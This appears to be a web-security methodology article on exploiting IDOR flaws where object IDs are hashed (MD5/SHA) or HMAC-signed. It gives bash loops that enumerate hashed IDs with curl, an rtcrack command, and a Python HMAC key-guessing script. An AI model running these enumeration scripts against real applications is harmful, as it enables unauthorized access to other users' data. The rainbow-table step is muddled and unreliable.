

# Hashed Parameter

## Context

This article explores the exploitation of Insecure Direct Object Reference (IDOR) vulnerabilities where object references in web applications are obfuscated using hash functions. Assumed knowledge includes an understanding of hash functions, object references, and basic web security principles, especially concerning IDOR vulnerabilities.

## Theory

### Hashed Parameters as Object References

In many web applications, object references such as user IDs or resources are obfuscated using hash functions before being included in URLs or API requests. A hashed parameter is essentially this obfuscated reference. While the intention is to conceal direct identifiers, hashing alone does not provide actual access control, making it possible to discover these values under certain conditions. If a hash is predictable or can be reversed, attackers can reconstruct valid references, leading to unauthorized access to sensitive objects.

### Predictability and Weaknesses in Hashing Schemes

Hash functions like MD5, SHA1, and even SHA256 are often used because they are fast, but they are susceptible to brute-force attacks or computationally intensive but feasible attacks using rainbow tables, especially when their input domain is small or predictable. When these hashes are used without proper salting or with weak or leaked keys, they become even more susceptible to attacks. Understanding these weaknesses is crucial for exploiting hashed parameters effectively.

### Attacker Workflow for Hashed Parameter IDOR

The workflow for an attacker exploiting hashed parameter vulnerabilities typically involves several steps:

- **Identify the hashed parameter** in the URL or request body.
- **Determine the hash algorithm** being used based on common characteristics, such as string length.
- **Generate candidate IDs**, and hash these candidates using the suspected function.
- **Substitute hashed values into requests** and observe responses for access permissions.



## Practice

### Brute-Forcing Predictable Hashed Parameters (MD5/SHA1/SHA256)

- Identify the hashed parameter in a request URL or body. Look for parameters that appear as a sequence of hexadecimal characters (e.g., 32, 40, or 64 chars for MD5, SHA1, or SHA256, respectively).

- Determine likely hash algorithm based on its length and context. 

- Execute the following command to generate MD5 hashes for candidate IDs ranging from 1 to 1000:

    ```bash
    for id in $(seq 1 1000); do echo -n $id | md5sum | awk '{print $1}'; done > md5_candidates.txt
    ```

- Test each hashed value for unauthorized access with:

    ```bash
    while read hash; do curl -s 'https://target/app/resource?id='$hash; done < md5_candidates.txt
    ```

By following these steps, you can achieve access to objects by predicting hashed IDs and determining valid ones.

### Rainbow Table Attack on Hashed Parameters

- Obtain a rainbow table corresponding to the suspected hashing algorithm.

- Use the rtcrack command to attempt reversing a hash:

    ```bash
    rtcrack -h <hash_value> -t <rainbow_table_file>
    ```

- Test access with the recovered hash value:

    ```bash
    curl -s 'https://target/app/resource?id=<recovered_hash>'
    ```

This method effectively bypasses access controls set by weak hashes by leveraging precomputed hash-to-value mappings.

### HMAC Hashed Parameter Guessing

- Identify if HMAC is used in parameters such as `id=123&sig=<hmac>`. These signatures are used for signing object references.

- If possible, attempt to guess or brute-force weak HMAC keys:

    ```python
    import hmac, hashlib
    key = b'secret'
    for id in range(1,1000):
        sig = hmac.new(key, str(id).encode(), hashlib.sha1).hexdigest()
        print(f'https://target/app/resource?id={id}&sig={sig}')
    ```

- Validate access using the generated HMAC signatures with:

    ```bash
    curl -s 'https://target/app/resource?id=42&sig=<generated_sig>'
    ```

In this scenario, successfully forging valid HMAC signatures with weak keys provides unauthorized access to resources.

## Tools

- **curl**
- **rtcrack**
- **hashcat**
- **Burp Suite** 

These tools are integral for executing the techniques described, supporting tasks such as sending HTTP requests, cracking hashes, and testing web application security.